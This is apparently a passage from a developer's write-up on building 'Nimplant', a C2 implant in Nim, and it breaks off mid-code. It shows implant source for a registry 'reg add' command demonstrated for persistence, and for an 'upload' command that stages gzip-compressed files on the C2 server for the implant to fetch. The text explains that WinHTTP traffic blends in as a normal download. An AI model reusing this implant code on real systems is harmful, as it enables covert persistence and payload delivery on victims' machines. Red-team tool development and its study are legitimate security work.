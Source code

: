 ```python
    # Query an existing registry value
    if command == "query":
        result = getUnicodeValue(regPath, key, handle)

    # Add a value to the registry
    elif command == "add":
        setUnicodeValue(regPath, key, value, handle)
        result = "Successfully set registry value."

    else:
        result = "Unknown reg command. Please use 'reg query' or 'reg add' followed by the path (and value when adding a key)."
```

Example usage of this command for "persistence" (`calc.exe` ftw) is shown below.

![Nimplant 'reg' command](/images/nimplant-registry.png)

**'Upload' command**

The `upload` command is interesting because it requires a modification in server behavior. In essence, it is almost the same as the `wget` command, which downloads a file from a remote source. However, in case of `upload`, a file is temporarily hosted on the C2 for the implant to download (it is called "upload" because downloading a file on the implant is 'uploading' it from the operator's perspective).

Because compiling the native web library with SSL support is wholly broken in Nim, I resorted to using the excellent [Puppy](https://github.com/treeform/puppy) library for all web interactions, including C2 traffic and web-based commands like `curl` or `wget`. This library which uses the `WinHTTP` API under the hood, so it should blend in quite well. It also supports transparent Gzip deflation, which is utilized to compress the file in-transit.

The command is executed in two phases. First, when the `upload` command is received by the C2 server, it parses the file to upload, GZip-compresses it, and makes it available for download after providing it with a unique ID. This ID is then passed on to the implant along with the `upload` command, allowing it to find and download the file. Because WinHTTP is used for the transfer, it looks like a regular file download from a networking perspective.

Because of this, the Nim code is relatively straight-forward. The bulk of it is again parsing parameters and determining the destination on disk, this time with the addition of parsing some  settings from the listener configuration.

```python
import puppy
from strutils import join, split
from os import getcurrentdir, `/`
from ../util/webClient import Listener

# Upload a file from the C2 server to Nimplant
# From Nimplant's perspective this is similar to wget, but calling to the C2 server instead
proc upload*(li : Listener, args : varargs[string]) : string =
    var 
        fileId : string
        fileName : string
        filePath : string
        url : string
        res : string

		# The command is passed as 'upload [localfile] <remotedestination>'
		# It is however transmitted as 'upload [file-identifier] [originalfilename] <remotedestination>'
    if args.len == 2 and args[0] != "" and args[1] != "":
        fileId = args[0]
        fileName = args[1]
        filePath = getCurrentDir()/fileName
    elif args.len >= 3:
```